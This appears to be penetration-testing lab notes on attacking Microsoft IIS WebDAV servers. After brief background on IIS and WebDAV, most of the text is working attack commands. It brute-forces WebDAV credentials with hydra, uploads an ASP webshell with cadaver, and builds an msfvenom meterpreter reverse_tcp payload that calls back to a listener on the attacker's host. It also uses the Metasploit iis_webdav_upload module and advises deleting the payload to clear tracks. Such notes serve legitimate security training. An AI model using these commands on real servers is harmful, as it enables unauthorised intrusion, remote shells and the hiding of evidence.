 # 1 - Microsoft IIS WebDav

## **Microsoft IIS**

* IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
* It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
* IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
* Typically configured to run on ports 80/443.
* Supported executable files extensions:
  * .asp
  * .aspx
  * .config
  * .php

## **WebDAV**

* WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
* WebDAV essentially enables a web server to function as a file server for collaborative authoring.
* WebDAV runs on top of Apache(Linux) or Microsoft IIS(Windows) on ports 80/443.
* In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

## **WebDAV Exploitation**

* The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
* We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
* After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

## **Tools**

* **davtest** - Used to scan, authenticate and exploit a WebDAV server. Giving us information as to what kind of files we can upload and execute on the WebDav server.
  * Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.
* **cadaver** - cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creations and deletion, property manipulation, and resource locking on WebDav servers.
  * &#x20;Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.



## **Practical Demonstration**

## Manually

**1 - We do an nmap scan to identify service versions on the host.**

* `nmap -sV -sC $ip` - scan the host.
* `nmap -sV -p 80 --script=http-enum 192.168.0.141` - indepth scan on port 80. This returns a "/webdav/" directory with a (401 Unauthorised) meaning WebDav is configured and Authentication is allowed.
* `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.29.107 http-get /webdav/` -  Bruteforce WebDAV authentication.

**2 -** **We can proceed with the credentials and use the \[davtest] tool to check what kind of files we can upload and execute in the WebDav server.**

`davtest -url http://$ip/webdav` -  if there's no authentication required.

`davtest -auth bob:password_123321 -url http://$ip/webdav` -  in this case we provide auth details, and found that we can upload ".txt, .html and .asp" files.

**3 - We can now use the \[cadaver] utility to upload a malicious ".asp" file to the WebDav server.**

`cadaver http://$ip/webdav` - provides us with a psuedo shell that allows us interact with the WebDav server. \[ls] to list files.

4 - Upload a webshell file to the server. `put /usr/share/webshells/asp/webshell.asp` .

5 - load the page, then execute the payload file.

### Cmds you can run in the WebDev shell

```bash
whoami
ipconfig
dir C:\  # list the content of the C drive root.
type C:\flag.txt  # output the content of the flag.
```



## Exploiting WebDAV With Metasploit

### Practical Demonstration

### Exploiting Manually with \[msfvenom] utility:&#x20;

```bash
# step 1
# generating .asp payload with msfvenom.
# its better to use the 32bit architecture for the payload if you are not sure whether the target is 32bit or 64bit.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali_Ip LPORT=1234 -f asp > shell.asp

# step 2
# use cadaver to upload the file.
cadaver http://$ip
put /path_to_payload # example /root/shell.asp

# step 3
# setup a listener to catch the reverse shell connection.
# you can use [nc] or [msf multi-handler]
sevice postgresql start && msfconsole  # here we use the Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $kali_ip
set LPORT 1234
run  # this will startup our reverse_tcp listener

# step 4
# execute/click the payload (shell.asp) file from the web browser
# we get a metepreter shell.
sysinfo
getuid

# after successful exploitation, you can delete the payload to clear tracks.
# using the cadaver utility.
delete shell.asp
```

### Exploiting Automatically with Metasploit

```bash
# step 1
search iis upload  # in metasploit.
use exploit/windows/iis/iis_webdav_upload.asp
# you can leave the default 32bit reverse_tcp payload.
show options
# since this process automates everything, we have to provide the WebDav credentials.
set HTTPUsername bob
set HTTPPassword password_123321
set RHOSTS $ip
# you can set the RPORT value to 443, and SSL to true if the WebDav server has an SSL certificate available.
# set the path to which  the file will be uploaded, give the payload a name (metasploit.asp).
set PATH /webdav/metasploit.asp
exploit
# we get a meterpreter shell!
```



